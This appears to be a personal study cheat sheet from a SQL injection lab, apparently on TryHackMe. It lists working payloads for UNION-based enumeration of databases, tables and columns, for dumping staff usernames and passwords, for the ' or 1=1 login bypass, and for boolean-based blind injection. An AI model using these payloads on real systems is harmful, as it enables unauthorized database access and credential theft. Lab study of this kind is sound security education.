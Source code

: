 # [SQL Injection]()

![](Pasted%20image%2020241116223725.png)

# [Introduction]()

In this case attacker exploit vulnerable input field in the web page to gain access of the database. Attacker inserts SQL command in the input field that interact with the database.
# [Example]()

![](Pasted%20image%2020241116225912.png)

![](Pasted%20image%2020241116225956.png)

# [SQL Injection Snippets]()

## Example 0: Check SQL Injection Vulnarability

use `'` or `"` to know if the input field is vulnerable to SQL injection.

## Example 1: In-band SQL Injection (reflected)

```sql
1 UNION SELECT 1
```

- If above gives error add another until success

```sql
0 UNION SELECT 1,2
```

```sql
0 UNION SELECT 1,2,3
```

- Above gives no error so look for database

```sql
0 UNION SELECT 1,2,database()
```

- `sqli_one` is the database name found. Get list of tables

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

- Fond `article,staff_users` tables. Get column from `staff_users`

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

- Found `id,password,username` columns. Let's get username and passwords

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
## Example 2: Blind SQL Injection: Bypass Auth
- Inserting below will result `true` for any input

```sql
' or 1=1;--
```

## Example 3: Blind SQL Injection: Boolean Based

`https://website.thm/checkuser?username=admin` this page returns `{"taken":true}`. For username query parameter we will put below sql snippet.

- Similar to example 1, select 1 if error/fail look for select 1,2 and so one

```sql
admin123' UNION SELECT 1;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2,3;--
```
```
Response:
{"taken":true}
```

- Now the response `taken` is `true`, look for database.

```sql
admin123' UNION SELECT 1,2,3 where database() like '%';--
```
```
Response:
{"taken":true}
```

```sql
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```
```
Response:
{"taken":true}
```

- Brute force the name using `database() like 'sa%'` `, database() like 'sa%'`  as the received output is true or false until get  the database name. In this case it is `sqli_three`

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three';--
```
```
Response:
{"taken":true}
```

- Brute force table name until response is true

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

